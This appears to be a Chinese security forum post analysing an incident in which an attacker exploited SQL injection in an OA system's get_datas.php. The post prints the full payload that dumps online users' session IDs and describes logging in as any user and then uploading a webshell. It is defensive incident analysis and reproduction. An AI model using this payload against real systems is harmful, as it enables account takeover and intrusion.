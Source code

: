 \*\*1.1漏洞特征  
通过构造绕过特殊的sql注入语句，对在线用户Session记录进行任意查询。利用该漏洞可以实现任意用户登录。配合任意文件上传漏洞，上传webshell。

1.2漏洞原理  
攻击者通过对某OA系统进行代码审计，找到get\_datas.php文件中执行sql语句的变量处于可控状态。并可以通过此漏洞获取在线用户的Session值。  
1.3利用方法  
1、使用POST方式访问

```php
/general/reportshop/utils/get_datas.php
```

payload为：

```php
USER_ID=OfficeTask&PASSWORD=&col=1,1&tab=5 where 1={`\='` 1} union (select uid,sid from user_online where 1\={`=` 1})-- '1**
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-733705b63824b5cf62e3c176ae15f3259f598286.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-733705b63824b5cf62e3c176ae15f3259f598286.png)  
2、通过获取到在线用户的Session，登录general/index.php 时替换里面的Session值即可实现任意用户登录。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-5f2d639cc9997b433d16c1ee17b8be61c432bf9a.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-5f2d639cc9997b433d16c1ee17b8be61c432bf9a.png)

3.处置/应对措施  
PoC：

```php
USER_ID=OfficeTask&PASSWORD=&col=1,1&tab=5 where 1={`\='` 1} union (select uid,sid from user_online where 1\={`=` 1})-- '1
```

4.详细分析过程  
由于攻击者触发的告警极少，因此之前的日志并未做分析。直至攻击者连接木马文件时，监测组才发现了其可疑行为。为了更好的发现问题点，我们将所有的该攻击IP的所有访问日志导出，由溯源分析组逐条的查看其可疑行为，通过时间发生的倒序排查法，最终定位到了该日志上：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-e87be2a8e4966a4db2fc3d03b1ad22214c3f8e27.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-e87be2a8e4966a4db2fc3d03b1ad22214c3f8e27.png)  
单纯看该攻击payload没有太高深的地方，而且告警的上下文极其不连贯，因此无法判定其如何进入的系统后台，之前单位内部有规定HW防守人员不得随意对业务系统进行测试，鉴于此我们提出跟集团领导请示进行复现漏洞的操作，并做好记录。提交申请后，组织人员对该漏洞点进行了测试。  
1、要求管理员在其单位驻地登录系统，并保持。  
2、防守人员使用burp工具对该问题点进行复现。截图如下：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-285e959d1bb35ad78560172a154bdcbc86e286be.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-285e959d1bb35ad78560172a154bdcbc86e286be.png)  
获取到相应的session值后，加入到repeater模块进行测试，当时为了检测效果先使用了错误session直接登录的方式，截图如下：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0afe703d4e9f959bb9ad703f8532ce9526e594ec.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0afe703d4e9f959bb9ad703f8532ce9526e594ec.png)  
使用正确的session值后  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-fe1f486fcfa733013e9bed0db5d67e917ac7ae1e.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-fe1f486fcfa733013e9bed0db5d67e917ac7ae1e.png)  
可以直接进入后台。至此复现完成如何实现任意用户登录的部分。